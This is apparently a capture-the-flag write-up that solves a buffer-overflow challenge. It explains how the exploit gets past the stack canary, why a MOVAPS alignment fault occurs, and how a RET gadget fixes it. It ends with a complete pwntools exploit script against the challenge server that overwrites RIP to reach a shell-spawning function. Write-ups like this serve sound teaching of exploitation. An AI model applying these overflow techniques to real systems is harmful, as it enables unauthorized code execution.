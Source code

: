 ```python
```

I'm using pwntools here to interact with the binary/remote connection and begin by setting the DuckCounter to 29 by looping through the program's menu that many times. On the 30th time of entering the `submit_code()` function I sent a standard buffer overflow payload that fills the buffer, sends the necessary canary nullbyte, fills the remaining portion of the canary, writes padding before the return address we're trying to overwrite, and finally overwrites the value of the RIP pointer to the constant address of the win function. Let's run it!

```
$ python3 duckexploit.py
[+] Starting local process './chall': pid 102
[*] Switching to interactive mode
[*] Got EOF while reading in interactive
```

End of File?? What?? But I thought we passed the canary check?

Stepping through GDB we see that, in fact, we have. We successfully bypass the canary check, overwrite RIP, and step into the function that should be spawning us a shell. So what's the problem?

## Diving into x86 and Stack Alignment
The cause of our troubles in this case is the x86 MOVAPS instruction. It's a common x86 instruction used by LIBC that will fail when operating on misaligned data. Unfortunately, by bypassing any `call` instructions and overwriting RIP to jump directly to the win function, the return address of our function is never pushed onto the stack. This means there is one less machine word on the stack and so it's unfortunately not 16 byte aligned :((

Well then, how do we fix it? Simple! Let's add a RET address in our payload that would normally be present if we had stepped into `win()` through a natural `call` instruction. It's possible to find a valid RET to use by running ROPgadget on the binary but I simply looked through Ghidra's decompiled x86 assembly and found `0x0040115e` to be exactly what we were looking for.

## Final Payload
```python
from pwn import *

r = remote('pwn.chall.pwnoh.io', 13386) #remote address
#r = process('./chall') #testing on local

for i in range(0, 29):
    r.recvuntil(b"fired")
    r.sendline(b"1")
    r.recvuntil(b"length.")
    r.sendline(b'duckies!')

r.recvuntil(b"fired")
r.sendline(b"1")
r.recvuntil(b"length.")

BASE = b"A"*520
NULLBYTE = b"\x00"
REMAINING_CANARY = b"A"*7
PADDING = 1
RET = 0x0040115e
WIN_FUNC = 0x401180

payload = BASE + NULLBYTE + REMAINING_CANARY + p64(PADDING) + p64(RET) + p64(WIN_FUNC)  

r.sendline(payload)
r.interactive()
```
